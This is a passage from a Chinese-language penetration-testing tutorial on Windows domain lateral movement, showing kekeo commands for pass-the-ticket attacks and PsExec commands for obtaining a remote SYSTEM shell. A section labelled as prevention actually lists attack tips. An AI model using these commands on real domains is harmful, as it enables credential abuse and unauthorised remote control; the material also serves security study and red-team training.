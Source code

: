 使用kekeo生成票据文件：

```powershell
kekeo "tgt::ask /user:administrator /domain:hackme.com /ntlm:XXXXXXXXXXXXXXXXXXXXXXXXX"
```

使用kekeo清楚内存中的其它票据：

```powershell
kekeo "kerberos::purge"
```

当然使用Windows自带的命令也是可以的：

```powershell
klist purge
```

然后使用kekeo导入票据：

```powershell
kerberos::ptt xxx.kirbi
```

随后正常使用即可。

#### 如何防范票据传递攻击

总结一下票据传递攻击的思路：

* 使用dir时，务必使用主机名，IP地址会错误
* 票据注入内存的默认有效时间为10小时
* 在目标机器上不需要本地管理员权限即可进行票据传递

通过上面几点就可理清票据传递攻击的思路了。

### PsExec的使用

PsExec是[Sysinternals Utilities - Windows Sysinternals | Microsoft Docs](https://docs.microsoft.com/en-us/sysinternals/downloads/)套件中一款功能强大的软件。起初是用于大批量Windows主机的运维，在域环境下效果尤其好。

攻击者渐渐开始使用PsExec，通过命令行环境与目标机器连接，甚至控制目标机器，而不需要通过远程桌面协议(RDP)进行控制，降低了被发现的可能性，并且由于该工具是微软官方提供的工具，杀毒软件将其列入了白名单。

PsExec可以在Windows Vista/NT 4.0/2000/XP/Server 2003/Server 2008/Server 2012/Server 2016上运行(包括64位版本)。

该软件的基本原理是：通过管道在远程目标机器上创建一个psexec服务，并在本地磁盘中生成一个名为”PSEXECSVC“的二进制文件，然后通过psexec服务运行命令，运行结束后删除服务。

首先，需要获取目标系统的交互式Shell，在建立了`ipc$`的情况下，执行如下命令：

```powershell
PsExec.exe -accepteula \\pc -s cmd.exe
```

`-s`表示获取系统权限的Shell，如果没有该参数获取到的为`Administrator`权限的Shell。

当然，如果没有建立`ipc$`，也可以通过参数传递账密：

```powershell
psexec \\pc -u administrator -p password cmd.exe
```

如果只是想执行一个命令的话，可以使用`cmd.exe /c command`，例如：
